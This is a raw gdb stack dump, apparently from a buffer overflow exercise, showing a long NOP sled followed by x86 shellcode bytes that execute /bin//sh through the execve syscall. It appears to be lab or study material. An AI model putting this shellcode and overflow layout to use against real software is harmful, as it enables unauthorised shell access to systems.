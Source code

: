 ```text
0xbffff6d0:     0x00000017      0x00000001      0x00000019      0xbffff6fb
0xbffff6e0:     0x0000001f      0xbfffffe8      0x0000000f      0xbffff70b
(gdb) x/100x $esp-500
0xbffff36c:     0xb7fd9b48      0x00000001      0x00000001      0x00000000
0xbffff37c:     0xb7fe90ab      0xb7fffaf0      0xb7fd9e08      0xbffff3a4
0xbffff38c:     0x0804a00c      0x0804821c      0x080481dc      0x00000000
0xbffff39c:     0x00000000      0xb7fff55c      0xb7e26534      0xbffff428
0xbffff3ac:     0x00000000      0xb7ff756c      0xb7fce000      0x00000000
0xbffff3bc:     0x00000000      0xbffff558      0xb7ff24c0      0xbffff584
0xbffff3cc:     0xb7ea6a30      0xbffff3f2      0x00000000      0x00000000
0xbffff3dc:     0x08048441      0xbffff3f2      0xbffff731      0x0804821d
0xbffff3ec:     0xb7fffc24      0x909018fc      0x90909090      0x90909090
0xbffff3fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff40c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff41c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff42c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff43c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff44c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff45c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff46c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff47c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff48c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff49c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4bc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4cc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4dc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff4ec:     0x90909090      0x90909090      0x90909090      0x90909090
(gdb)
0xbffff4fc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff50c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff51c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff52c:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff53c:     0x90909090      0x31909090      0x2f6850c0      0x6868732f
0xbffff54c:     0x6e69622f      0xc189e389      0x0bb0c289      0xc03180cd
0xbffff55c:     0xc080cd40      0x00bffff4      0xbffff5f4      0xbffff600
0xbffff56c:     0xb7feccca      0x00000002      0xbffff5f4      0xbffff594
0xbffff57c:     0x0804a014      0x0804821c      0xb7fce000      0x00000000
0xbffff58c:     0x00000000      0x00000000      0xd1acbedc      0xe9331acc
0xbffff59c:     0x00000000      0x00000000      0x00000000      0x00000002
0xbffff5ac:     0x08048320      0x00000000      0xb7ff24c0      0xb7e3ba09
0xbffff5bc:     0xb7fff000      0x00000002      0x08048320      0x00000000
0xbffff5cc:     0x08048341      0x0804841d      0x00000002      0xbffff5f4
0xbffff5dc:     0x08048450      0x080484c0      0xb7fed160      0xbffff5ec
0xbffff5ec:     0x0000001c      0x00000002      0xbffff71d      0xbffff731
0xbffff5fc:     0x00000000      0xbffff8a3      0xbffff8b4      0xbffff8c4
0xbffff60c:     0xbffff8d8      0xbffff8fe      0xbffff911      0xbffff923
0xbffff61c:     0xbffffe44      0xbffffe50      0xbffffeae      0xbffffeca
0xbffff62c:     0xbffffed9      0xbffffef0      0xbfffff01      0xbfffff0a
0xbffff63c:     0xbfffff22      0xbfffff2a      0xbfffff3f      0xbfffff87
0xbffff64c:     0xbfffffa7      0xbfffffc6      0x00000000      0x00000020
0xbffff65c:     0xb7fdccf0      0x00000021      0xb7fdc000      0x00000010
0xbffff66c:     0x078bfbff      0x00000006      0x00001000      0x00000011
0xbffff67c:     0x00000064      0x00000003      0x08048034      0x00000004
(gdb)
0xbffff68c:     0x00000020      0x00000005      0x00000009      0x00000007
0xbffff69c:     0xb7fde000      0x00000008      0x00000000      0x00000009
0xbffff6ac:     0x08048320      0x0000000b      0x000003e8      0x0000000c
0xbffff6bc:     0x000003e8      0x0000000d      0x000003e8      0x0000000e
0xbffff6cc:     0x000003e8      0x00000017      0x00000001      0x00000019
0xbffff6dc:     0xbffff6fb      0x0000001f      0xbfffffe8      0x0000000f
0xbffff6ec:     0xbffff70b      0x00000000      0x00000000      0xcf000000
0xbffff6fc:     0x3f9b7e30      0x99d19723      0x17bfcf9a      0x69fe28c6
```